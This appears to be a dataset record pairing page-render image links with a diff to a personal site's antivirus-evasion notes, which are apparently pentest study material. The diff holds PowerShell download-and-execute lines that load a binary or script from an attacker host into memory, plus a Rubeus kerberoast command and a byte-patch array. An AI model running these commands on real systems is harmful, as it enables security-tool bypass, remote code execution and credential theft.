

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/AntivirusEvasion.md, in a window 1280 px wide and 900 px high, scrolled down 2422 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
updated evasion notes

```diff
--- a/markdown/AntivirusEvasion.md
+++ b/markdown/AntivirusEvasion.md
@@ -114,7 +114,7 @@ $Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
 $data=(New-Object System.Net.WebClient).DownloadData('http://{kali_IP:port}/{exe_binary}');
 $asm = [System.Reflection.Assembly]::Load([byte[]]$data);
 $out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
-[{binary_name}.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
+[{binary_name}.Program]::Main(@('{params}'));[Console]::SetOut($out);$sWriter.ToString()
 
 ## Thread Injection
 - Operates within the process it's being executed from
@@ -125,7 +125,7 @@ $out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($s
 - If instead of dealing with executables we'd just like to use powershell, we can use [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
     - `iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/refs/heads/master/PowerSharpPack.ps1 -o psp.ps1`
     - Insanely useful powershell script that has C# executables bundled into it as compiled base64 binaries
-    - Run with `iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')` and `PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"`, for example
+    - Run with `iex(new-object net.webclient).downloadstring('http://{kali_IP:port}/PowerSharpPack.ps1')` and `PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"`, for example
 
 # Import VirtualAlloc to allocate memory
 
```
